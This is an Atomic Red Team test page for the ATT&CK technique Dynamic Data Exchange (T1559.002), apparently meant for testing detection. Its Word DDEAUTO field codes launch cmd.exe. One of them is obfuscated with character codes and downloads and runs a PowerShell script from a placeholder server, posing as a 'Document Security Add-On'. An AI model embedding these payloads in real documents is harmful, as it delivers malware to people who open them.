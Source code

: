 # T1559.002 - Dynamic Data Exchange
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1559/002)
<blockquote>Adversaries may use Windows Dynamic Data Exchange (DDE) to execute arbitrary commands. DDE is a client-server protocol for one-time and/or continuous inter-process communication (IPC) between applications. Once a link is established, applications can autonomously exchange transactions consisting of strings, warm data links (notifications when a data item changes), hot data links (duplications of changes to a data item), and requests for command execution.

Object Linking and Embedding (OLE), or the ability to link data between documents, was originally implemented through DDE. Despite being superseded by [Component Object Model](https://attack.mitre.org/techniques/T1559/001), DDE may be enabled in Windows 10 and most of Microsoft Office 2016 via Registry keys.(Citation: BleepingComputer DDE Disabled in Word Dec 2017)(Citation: Microsoft ADV170021 Dec 2017)(Citation: Microsoft DDE Advisory Nov 2017)

Microsoft Office documents can be poisoned with DDE commands, directly or through embedded files, and used to deliver execution via [Phishing](https://attack.mitre.org/techniques/T1566) campaigns or hosted Web content, avoiding the use of Visual Basic for Applications (VBA) macros.(Citation: SensePost PS DDE May 2016)(Citation: Kettle CSV DDE Aug 2014)(Citation: Enigma Reviving DDE Jan 2018)(Citation: SensePost MacroLess DDE Oct 2017) Similarly, adversaries may infect payloads to execute applications and/or commands on a victim device by way of embedding DDE formulas within a CSV file intended to be opened through a Windows spreadsheet program.(Citation: OWASP CSV Injection)(Citation: CSV Excel Macro Injection )

DDE could also be leveraged by an adversary operating on a compromised machine who does not have direct access to a [Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059). DDE execution can be invoked remotely via [Remote Services](https://attack.mitre.org/techniques/T1021) such as [Distributed Component Object Model](https://attack.mitre.org/techniques/T1021/003) (DCOM).(Citation: Fireeye Hunting COM June 2019)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Execute Commands](#atomic-test-1---execute-commands)

- [Atomic Test #2 - Execute PowerShell script via Word DDE](#atomic-test-2---execute-powershell-script-via-word-dde)

- [Atomic Test #3 - DDEAUTO](#atomic-test-3---ddeauto)


<br/>

## Atomic Test #1 - Execute Commands
Executes commands via DDE using Microsfot Word

**Supported Platforms:** Windows


**auto_generated_guid:** f592ba2a-e9e8-4d62-a459-ef63abd819fd





#### Run it with these steps! 
Open Microsoft Word

Insert tab -> Quick Parts -> Field

Choose = (Formula) and click ok.

After that, you should see a Field inserted in the document with an error "!Unexpected End of Formula", right-click the Field, and choose Toggle Field Codes.

The Field Code should now be displayed, change it to Contain the following:

{DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"  }







<br/>
<br/>

## Atomic Test #2 - Execute PowerShell script via Word DDE
When the word document opens it will prompt the user to click ok on a dialogue box, then attempt to run PowerShell with DDEAUTO to download and execute a powershell script

**Supported Platforms:** Windows


**auto_generated_guid:** 47c21fb6-085e-4b0d-b4d2-26d72c3830b3






#### Attack Commands: Run with `command_prompt`! 


```cmd
start $PathToAtomicsFolder\T1559.002\bin\DDE_Document.docx
```






<br/>
<br/>

## Atomic Test #3 - DDEAUTO
TrustedSec - Unicorn - https://github.com/trustedsec/unicorn

SensePost DDEAUTO - https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/

Word VBA Macro

[Dragon's Tail](https://github.com/redcanaryco/atomic-red-team/tree/master/ARTifacts/Adversary/Dragons_Tail)

**Supported Platforms:** Windows


**auto_generated_guid:** cf91174c-4e74-414e-bec0-8d60a104d181





#### Run it with these steps! 
1. Open Word

2. Insert tab -> Quick Parts -> Field

3. Choose = (Formula) and click ok.

4. Once the field is inserted, you should now see "!Unexpected End of Formula"

5. Right-click the Field, choose "Toggle Field Codes"

6. Paste in the code from Unicorn or SensePost

7. Save the Word document.

9. DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"

10. DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord\\..\\..\\..\\..\\windows\\system32\\{ QUOTE 87 105 110 100 111 119 115 80 111 119 101 114 83 104 101 108 108 }\\v1.0\\{ QUOTE 112 111 119 101 114 115 104 101 108 108 46 101 120 101 } -w 1 -nop { QUOTE 105 101 120 }(New-Object System.Net.WebClient).DownloadString('http://<server>/download.ps1'); # " "Microsoft Document Security Add-On"







<br/>
